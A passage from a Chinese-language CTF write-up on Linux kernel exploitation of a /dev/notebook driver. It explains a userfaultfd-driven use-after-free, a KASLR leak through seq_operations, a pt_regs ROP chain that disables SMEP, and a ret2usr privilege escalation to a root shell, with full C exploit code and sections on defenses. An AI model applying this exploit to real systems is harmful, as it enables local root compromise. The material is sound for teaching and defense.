4. **进程权限变化**：当前进程获得权限提升

**步骤9：恢复状态与清理**
完成权限状态变化后，恢复原始`tty_struct`结构，启动shell：

```c
log.info("fix the tty_struct...");
notebook_write(0, orig_tty_struct);

get_root_shell();
```

### 4-6. 技术原理分析

**UAF条件构造原理**：
验证程序通过精确控制线程执行顺序，在`note_edit`释放内存后、指针置NULL前的时间窗口内，重新分配`tty_struct`对象占用被释放的内存。此时形成UAF条件：`notebook[0].note`指针指向的内存已被`tty_struct`对象占用。

**控制流转移机制**：

1. **信息获取**：通过UAF读取`tty_struct`对象内容，获取内核地址信息
2. **结构调整**：修改`tty_struct->ops`指针指向可控内存区域
3. **函数指针调整**：在可控区域构造伪装的`tty_operations`，利用`work_for_cpu_fn`作为辅助函数
4. **控制流引导**：通过`ioctl`调用引导执行特定的内核函数

**work_for_cpu_fn机制优势**：

1. **结构兼容性**：`tty_struct`与`work_for_cpu`结构在内存布局上存在对应关系
2. **函数执行能力**：能够执行任意内核函数并传递参数
3. **结果返回机制**：通过`ret`字段返回执行结果，支持链式调用
4. **内核兼容性**：大多数内核版本都包含此机制

### 4-7. 防御与缓解措施

**漏洞根源**：

1. **锁机制误用**：`note_edit`函数使用读锁保护可能修改共享数据的操作
2. **操作原子性破坏**：内存释放与指针更新操作分离
3. **状态一致性缺失**：缺乏对数据结构状态的一致性验证

**防御建议**：

1. **正确的锁策略**：
    - 对可能修改共享数据的操作使用写锁
    - 保持锁使用的统一性和一致性
    - 考虑使用更细粒度的锁或RCU机制

2. **内存操作原子性**：
    - 将内存释放与指针更新作为原子操作
    - 使用适当的屏障指令确保内存操作顺序
    - 考虑使用引用计数管理内存生命周期

3. **状态验证机制**：
    - 在关键操作前后验证数据结构状态
    - 添加完整性检查机制
    - 实现防御性编程策略

4. **userfaultfd防护**：
    - 限制普通用户使用`userfaultfd`的权限
    - 为缺页处理添加超时机制
    - 监控异常的`userfaultfd`使用模式

5. **内核加固措施**：
    - 启用KASLR、SMAP、SMEP等安全特性
    - 使用CFI（控制流完整性）保护
    - 实现堆内存隔离和随机化
    - 对`work_for_cpu_fn`等辅助函数进行访问控制

### 4-8. 总结

此验证案例不仅展示了特定漏洞的验证技术，更重要的是揭示了内核开发中常见的安全挑战和防护策略。通过深入分析此类漏洞的成因、验证方法和防御措施，可以帮助开发者更好地理解并发编程的安全挑战，设计更安全的系统接口，提高整体系统安全性。

验证程序仅用于安全研究和教育目的，旨在帮助安全研究人员和开发者更好地理解内核安全机制，发现和修复潜在的安全问题，共同提高系统安全水平。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 进阶分析：seq_operations结构利用

exploit核心代码如下：

```c
#define SINGLE_START 0xffffffff811dd500
#define PREPARE_KERNEL_CRED 0xffffffff8107f9c0
#define COMMIT_CREDS 0xffffffff8107f6f0

#define POP_RAX_POP_RBP_RET 0xffffffff810778f6
#define MOV_CR4_RAX_POP_RBP_RET 0xffffffff81038caa
#define ADD_RSP_0X198_POP_RBX_POP_RBP_RET 0xffffffff815d35cd

size_t user_cs, user_ss, user_rflags, user_sp;
size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
size_t prepare_kernel_cred = 0, commit_creds = 0;

size_t pop_rax_pop_rbp_ret;
size_t mov_cr4_rax_pop_rbp_ret;

void save_status() {
  asm volatile("mov user_cs, cs;"
               "mov user_ss, ss;"
               "mov user_sp, rsp;"
               "pushf;"
               "pop user_rflags;");
  log.info("Status has been saved.");
}

int flag_fd;
void get_root_shell(void) {
  char flag[0x100] = {0};
  if (getuid()) {
    log.error("Failed to get the root!");
    exit(-1);
  }

  log.success("Successful to get the root. Execve root shell now...");
  flag_fd = open("/root/flag", O_RDONLY);
  if (flag_fd < 0) {
    log.error("failed to open /root/flag!");
    exit(-1);
  }
  read(flag_fd, flag, sizeof(flag) - 1);
  log.success("Got flag: %s", flag);
  system("/bin/sh");
}

void *(*prepare_kernel_cred_kfunc)(void *task_struct);
int (*commit_creds_kfunc)(void *cred);

void ret2usr_attack(void) {
  prepare_kernel_cred_kfunc = (void *(*)(void *))prepare_kernel_cred;
  commit_creds_kfunc = (int (*)(void *))commit_creds;

  (*commit_creds_kfunc)((*prepare_kernel_cred_kfunc)(NULL));

  asm volatile("mov rax, user_ss;"
               "push rax;"
               "mov rax, user_sp;"
               "sub rax, 8;" /* stack balance */
               "push rax;"
               "mov rax, user_rflags;"
               "push rax;"
               "mov rax, user_cs;"
               "push rax;"
               "lea rax, get_root_shell;"
               "push rax;"
               "swapgs;"
               "iretq;");
}

void bind_core(int core) {
  cpu_set_t cpu_set;

  CPU_ZERO(&cpu_set);
  CPU_SET(core, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
  log.info("Process binded to core %d", core);
}

/**
 * Kernel structure
 **/
#define SEQ_OPERATIONS_SIZE 0x20
struct seq_file;
struct seq_operations {
  void *(*start)(struct seq_file *m, loff_t *pos);
  void (*stop)(struct seq_file *m, void *v);
  void *(*next)(struct seq_file *m, void *v, loff_t *pos);
  int (*show)(struct seq_file *m, void *v);
};

size_t ret2usr_func = (size_t)ret2usr_attack;

int main() {
  struct note_t kernel_notebook[NOTE_NUM] = {0};
  struct seq_operations seq_ops = {0};
  pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
  int i = 0;

  /* fundamental infastructure */
  save_status();
  bind_core(0);

  sem_init(&evil_add_sem, 0, 0);
  sem_init(&evil_edit_sem, 0, 0);

  /* open dev */
  note_fd = open("/dev/notebook", O_RDWR);
  if (note_fd < 0) {
    log.error("open /dev/notebook failed!");
    exit(-1);
  }

  /* register userfaultfd */
  log.info("register userfaultfd...");

  uffd_buf = (char *)mmap(NULL, 0x1000, PROT_READ | PROT_WRITE,
                          MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  register_userfaultfd_for_thread_stucking(&uffd_monitor_thread, uffd_buf,
                                           0x1000);

  /* get a tty-size object */
  log.info("allocating seq_operations-size object...");

  note_add(0, 0x10, "BinRacerBinRacer");
  note_edit(0, SEQ_OPERATIONS_SIZE, fault_page);

  /**
   * construct UAF by userfaultfd.
   * Note that we need to sleep(1) there to wait for the kfree() to be done,
   * so that the UAF object can be regetted later.
   */
  log.info("constructing UAF on seq_operations...");

  pthread_create(&edit_uaf_thread, NULL, construct_uaf, NULL);
  pthread_create(&add_fix_size_thread, NULL, fix_size_by_add, NULL);

  sem_post(&evil_edit_sem);
  sleep(1);

  /**
   * fix notebook[0]->size.
   * Note that we need to sleep(1) there to wait for the `size` to be fixed.
   */
  sem_post(&evil_add_sem);
  sleep(1);

  /* leak kernel_base by tty_struct */
  log.info("leaking kernel_base by seq_operations");

  seq_fd = open("/proc/self/stat", O_RDONLY);
  if (seq_fd < 0) {
    log.error("Failed to open /proc/self/stat!");
    exit(-1);
  }

  notebook_read(0, &seq_ops);
  log.success("leak single_start: 0x%lx", (size_t)seq_ops.start);
  kernel_offset = (size_t)seq_ops.start - SINGLE_START;
  kernel_base += kernel_offset;
  prepare_kernel_cred = kernel_offset + PREPARE_KERNEL_CRED;
  commit_creds = kernel_offset + COMMIT_CREDS;
  log.success("kernel base: 0x%lx", kernel_base);
  log.success("kernel offset: 0x%lx", kernel_offset);

  seq_ops.start = (void *(*)(struct seq_file *, loff_t *))(
      ADD_RSP_0X198_POP_RBX_POP_RBP_RET + kernel_offset);
  notebook_write(0, &seq_ops);

  pop_rax_pop_rbp_ret = kernel_offset + POP_RAX_POP_RBP_RET;
  mov_cr4_rax_pop_rbp_ret = kernel_offset + MOV_CR4_RAX_POP_RBP_RET;
  log.info("Preparing pt_regs...");
  __asm__("mov r15,   0xbeefdead;"
          "mov r14,   0x11111111;"
          "mov r13,   pop_rax_pop_rbp_ret;" // first part
          "mov r12,   0x6f0;"
          "mov rbp,   0x44444444;"
          "mov rbx,   mov_cr4_rax_pop_rbp_ret;"
          "mov r11,   0x66666666;"
          "mov r10,   ret2usr_func;" // second part
          "mov r9,    0x88888888;"
          "mov r8,    0x99999999;"
          "xor rax,   rax;"
          "mov rcx,   0xaaaaaaaa;"
          "mov rdx,   8;"
          "mov rsi,   rsp;"
          "mov rdi,   seq_fd;" // Trigger through seq_operations->stat
          "syscall");
  return 0;
}
```

### 6-1. seq_operations结构概述

`seq_operations`是Linux内核中用于序列文件（sequence file）操作的关键数据结构，定义在`include/linux/seq_file.h`中。该结构包含四个函数指针，用于实现序列文件的遍历、读取和显示操作：

```c
struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
```

**结构特点**：

1. **函数指针表**：包含四个标准的序列操作函数指针
2. **稳定性**：在内核中广泛使用，结构稳定
3. **可预测性**：函数指针在内存中的布局可预测
4. **触发路径**：通过`/proc`文件系统访问可触发相关函数调用

### 6-2. seq_operations利用原理

与之前的`tty_struct`利用不同，`seq_operations`结构的利用更加直接。该结构本身就是函数指针表，通过篡改其函数指针可以直接控制执行流，无需复杂的结构转换。利用流程基于以下原理：

1. **UAF条件构造**：使`seq_operations`对象被释放后重新占用
2. **函数指针篡改**：直接修改`start`、`next`、`show`等函数指针
3. **控制流转移**：通过读取`/proc`文件触发序列文件操作
4. **信息泄露**：从原始`seq_operations`结构中泄露内核地址信息

**利用优势**：

1. **直接性**：直接修改函数指针，无需跳板函数
2. **简洁性**：结构简单，内存布局清晰
3. **可靠性**：触发路径稳定，通过标准文件操作接口
4. **灵活性**：支持多种利用方式，包括ROP链构造

### 6-3. 利用流程分析

基于提供的代码，完整的`seq_operations`利用流程可以分为以下11个阶段，下图展示了从初始化到权限状态变化的完整流程：



#### 阶段1：环境初始化

验证程序首先进行基础环境准备，为后续的精确时序控制创造条件：

- **状态保存**：保存当前进程状态，包括信号处理器、文件描述符等
- **CPU核心绑定**：将进程绑定到特定CPU核心，减少多核并发的不确定性
- **信号量初始化**：创建两个POSIX信号量用于线程同步控制
- **设备文件打开**：打开目标内核模块设备文件获取操作句柄

#### 阶段2：userfaultfd注册

为构造精确的竞争条件，验证程序注册`userfaultfd`机制实现对内核执行流的控制：

- **内存区域分配**：分配专门的用户空间内存区域用于触发缺页异常
- **监控线程创建**：创建专门的线程处理缺页事件
- **无限休眠处理器**：配置处理器使触发缺页的线程无限期挂起

#### 阶段3：内存准备

准备合适大小的内存对象用于后续的释放后使用条件：

- **初始便签创建**：在索引0位置创建一个小型便签
- **内存大小调整**：通过`note_edit`将便签大小调整为`seq_operations`结构的大小
- **内存布局准备**：为后续的内存重新分配提供合适大小的内存块

#### 阶段4：构造UAF条件

通过精确的线程控制构造释放后使用条件：

- **edit_uaf_thread**：执行`note_edit(0, 0, uffd_buf)`释放内存，在`copy_from_user`处挂起
- **add_fix_size_thread**：执行`note_add(0, 0x60, uffd_buf)`修复size字段，同样挂起
- **信号量同步**：通过信号量确保两个线程按正确顺序执行
- **竞争窗口创建**：形成内存已释放但指针未置NULL的时间窗口

#### 阶段5：内存重新分配

在UAF时间窗口内重新分配目标对象：

- **触发分配**：打开`/proc/self/stat`文件，触发内核分配`seq_operations`结构
- **内存占用**：新分配的`seq_operations`对象占用刚刚释放的内存区域
- **指针状态**：此时`notebook[0].note`指针仍指向原内存，但内容已被`seq_operations`覆盖

#### 阶段6：信息泄露

从重新分配的对象中提取关键内核信息：

- **结构读取**：通过`notebook_read`读取`seq_operations`结构内容
- **函数指针提取**：获取`start`指针，计算内核基址偏移
- **KASLR绕过**：基于已知符号偏移计算内核基址，绕过地址随机化
- **地址计算**：计算后续利用所需的内核函数地址

#### 阶段7：栈指针调整准备

篡改`seq_operations`的函数指针以控制执行流：

- **目标gadget选择**：选择栈指针调整指令序列作为第一个执行点
- **指针计算**：基于内核偏移计算gadget的绝对地址
- **结构篡改**：修改`seq_operations->start`指针指向栈调整gadget
- **内存写入**：将修改后的结构写回内存

#### 阶段8：构造pt_regs布局

精心布置寄存器状态，为ROP链执行做准备：

- **寄存器初始化**：通过内联汇编精确设置所有相关寄存器
- **ROP链构造**：在寄存器中布置gadget地址和参数值
- **栈布局规划**：确保系统调用进入内核后，栈指针调整能正确指向构造的ROP链
- **控制流设计**：设计从栈调整到权限提升的完整执行路径

#### 阶段9：触发系统调用

通过系统调用触发构造的执行路径：

- **文件操作准备**：准备文件描述符、缓冲区地址和读取长度
- **系统调用参数**：设置`read`系统调用的参数
- **寄存器状态保存**：执行`syscall`指令，寄存器状态被保存到内核栈的`pt_regs`结构
- **内核入口**：进入内核空间，开始处理`read`系统调用

#### 阶段10：栈指针调整执行

在内核中执行栈指针调整，跳转到构造的ROP链：

- **函数调用**：内核调用`seq_operations->start`函数
- **栈指针调整**：执行`add rsp, 0x198`指令，跳过正常栈帧
- **目标定位**：调整后的栈指针指向构造的`pt_regs`结构
- **控制流转移**：通过`ret`指令开始执行ROP链

#### 阶段11：ROP链执行与权限状态变化

执行精心构造的ROP链，实现权限状态变化：

1. **第一个gadget**：`pop rax; pop rbp; ret`，从栈加载目标CR4值到RAX
2. **第二个gadget**：`mov cr4, rax; pop rbp; ret`，修改CR4寄存器禁用SMEP保护
3. **返回用户空间**：跳转回用户空间继续执行权限提升代码
4. **权限状态变化**：执行用户空间的权限提升逻辑
5. **Shell获取**：启动具有提升权限的shell

### 6-4. pt_regs结构原理与利用

#### 6-4-1. 结构概述

`pt_regs`是Linux内核中用于保存处理器寄存器状态的数据结构。当从用户空间进入内核空间时，内核会保存用户空间的寄存器状态到`pt_regs`结构，以便在返回用户空间时恢复。其典型定义如下：

```c
struct pt_regs {
    unsigned long r15;
    unsigned long r14;
    unsigned long r13;
    unsigned long r12;
    unsigned long bp;
    unsigned long bx;
    unsigned long r11;
    unsigned long r10;
    unsigned long r9;
    unsigned long r8;
    unsigned long ax;
    unsigned long cx;
    unsigned long dx;
    unsigned long si;
    unsigned long di;
    unsigned long orig_ax;
    unsigned long ip;
    unsigned long cs;
    unsigned long flags;
    unsigned long sp;
    unsigned long ss;
};
```

**结构特点**：

1. **寄存器状态保存**：完整保存用户空间进入内核时的所有寄存器状态
2. **栈上存储**：在内核栈上顺序保存，便于系统调用返回时恢复
3. **固定布局**：寄存器保存顺序固定，便于定位和访问
4. **平台相关**：不同处理器架构有不同的`pt_regs`定义，此处为x86_64架构

#### 6-4-2. 内核栈布局

**保存时机**：
当系统调用发生时，内核会将用户空间的寄存器值压入内核栈，形成`pt_regs`结构。在x86_64架构中，这些寄存器按照特定顺序保存，以便在系统调用返回时恢复。

**栈布局特点**：

1. **顺序固定**：寄存器按照定义顺序从栈底向栈顶排列
2. **偏移固定**：每个寄存器在栈中有固定的偏移量
3. **大小固定**：x86_64架构中每个寄存器占8字节
4. **对齐要求**：栈指针保持16字节对齐

**寄存器保存顺序**：
在x86_64架构中，系统调用进入内核时，寄存器按照以下顺序保存到栈上：

```
+0x00: r15
+0x08: r14
+0x10: r13
+0x18: r12
+0x20: rbp
+0x28: rbx
+0x30: r11
+0x38: r10
+0x40: r9
+0x48: r8
+0x50: rax
+0x58: rcx
+0x60: rdx
+0x68: rsi
+0x70: rdi
+0x78: orig_ax
+0x80: rip
+0x88: cs
+0x90: rflags
+0x98: rsp
+0xa0: ss
```

#### 6-4-3. 通过栈布局控制执行流

在`seq_operations`技术验证中，通过精确构造栈布局，使得当`seq_operations->start`被调用时，栈指针调整后恰好指向精心构造的`pt_regs`结构，其中的寄存器值构成了ROP链。

**核心原理**：

1. **栈指针可控**：通过篡改`seq_operations->start`指针，使其指向栈调整指令
2. **布局可预测**：`pt_regs`结构在栈上的布局固定，便于定位
3. **寄存器可控**：通过内联汇编可以精确控制寄存器的初始值
4. **控制流可导**：调整后的栈指针指向构造的寄存器值，形成ROP链

**技术优势**：

1. **直接性**：直接通过系统调用触发，无需复杂中间步骤
2. **可控性**：寄存器和栈布局均可精确控制
3. **稳定性**：基于内核标准机制，受内核版本影响较小
4. **灵活性**：支持多种控制流转移方式

#### 6-4-4. 执行流程分析

下图展示了`pt_regs`结构利用的完整执行流程：



#### 6-4-5. 总结

`pt_regs`结构利用展示了内核机制中寄存器状态管理的复杂性和精确性要求。通过对系统调用机制的深入理解和精心构造，能够实现特定的控制流转移目标。这种技术的分析不仅有助于理解内核安全机制，也为开发更有效的系统调试和优化工具提供了重要参考。

### 6-5. 关键代码分析

**信息泄露部分**：

```c
notebook_read(0, &seq_ops);
log.success("leak single_start: 0x%lx", (size_t)seq_ops.start);
kernel_offset = (size_t)seq_ops.start - SINGLE_START;
kernel_base += kernel_offset;
```

这里通过读取`seq_operations`的`start`指针，然后减去已知的`single_start`符号偏移，得到内核基址。这是因为`/proc/self/stat`文件使用`single_start`作为其`start`函数。

**控制流转移部分**：

```c
seq_ops.start = (void *(*)(struct seq_file *, loff_t *))(
    ADD_RSP_0X198_POP_RBX_POP_RBP_RET + kernel_offset);
notebook_write(0, &seq_ops);
```

将`seq_operations->start`指针改为一个栈调整指令序列：

- `ADD_RSP_0X198`：将栈指针增加0x198字节
- `POP_RBX`、`POP_RBP`：弹出栈上的值到寄存器
- `RET`：返回，此时RIP将从新的栈位置获取

**ROP链构造细节**：

1. **禁用SMEP**：通过修改CR4寄存器的第20位（SMEP位），从`0x6f0`（二进制11011110000）改为`0x6e0`（二进制11011100000），清除SMEP位
2. **控制流返回**：执行完内核ROP链后，返回到用户空间继续执行权限提升代码
3. **栈平衡**：每个gadget后的`pop rbp; ret`确保栈的正确平衡

### 6-6. 技术对比分析

| 特性           | tty_struct利用                  | seq_operations利用         |
| -------------- | ------------------------------- | -------------------------- |
| **利用对象**   | tty_struct结构体                | seq_operations结构体       |
| **触发方式**   | ioctl系统调用                   | 序列文件操作（read）       |
| **信息泄露**   | 通过tty_operations指针          | 通过seq_operations函数指针 |
| **控制流转移** | 通过work_for_cpu_fn跳板         | 直接篡改函数指针+ROP链     |
| **绕过SMEP**   | 通过work_for_cpu_fn执行内核函数 | 通过ROP链修改CR4寄存器     |
| **复杂度**     | 较高，需要结构转换              | 中等，需要构造ROP链        |
| **稳定性**     | 中等，依赖跳板函数              | 较高，直接控制执行流       |

### 6-7. 防御与缓解措施

**针对seq_operations利用的特定防御**：

1. **结构保护机制**：
    - 对`seq_operations`等关键数据结构进行写保护
    - 实现函数指针完整性检查
    - 使用只读内存区域存储函数指针表
    - 实施指针验证机制

2. **执行流保护**：
    - 启用控制流完整性（CFI）保护
    - 实施栈完整性检查
    - 限制可执行内存区域
    - 加强返回地址保护

3. **pt_regs防护**：
    - 验证pt_regs结构的完整性
    - 限制从用户空间传入的寄存器值
    - 实施寄存器值范围检查
    - 加强系统调用入口验证

4. **权限控制**：
    - 限制普通用户对`/proc`文件系统的访问
    - 实施最小权限原则
    - 加强命名空间隔离
    - 监控异常的序列文件操作

**通用安全加固措施**：

1. **内存安全管理**：
    - 使用-after-free后立即置空指针
    - 实现双重释放检测
    - 加强堆分配随机化
    - 实施内存隔离机制

2. **内核安全特性**：
    - 启用KASLR、SMAP、SMEP、KPTI
    - 实施特权执行保护
    - 加强系统调用过滤
    - 启用栈保护机制

3. **监控与检测**：
    - 监控异常的`seq_operations`修改
    - 检测ROP链利用模式
    - 实施行为分析监控
    - 记录异常的系统调用模式

### 6-8. 总结

`seq_operations`结构利用案例展示了内核漏洞利用技术的多样性和演进趋势。与`tty_struct`利用相比，这种方法更直接、更灵活，但也面临更多的安全防护挑战。通过深入分析此类技术，可以帮助理解并发编程的安全挑战，设计更安全的系统接口，提高整体系统安全性。

### 6-9. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/userfaultfd
https://github.com/BinRacer/pwn4kernel/tree/master/src/userfaultfd2
https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#例题：强网杯2021线上赛-notebook
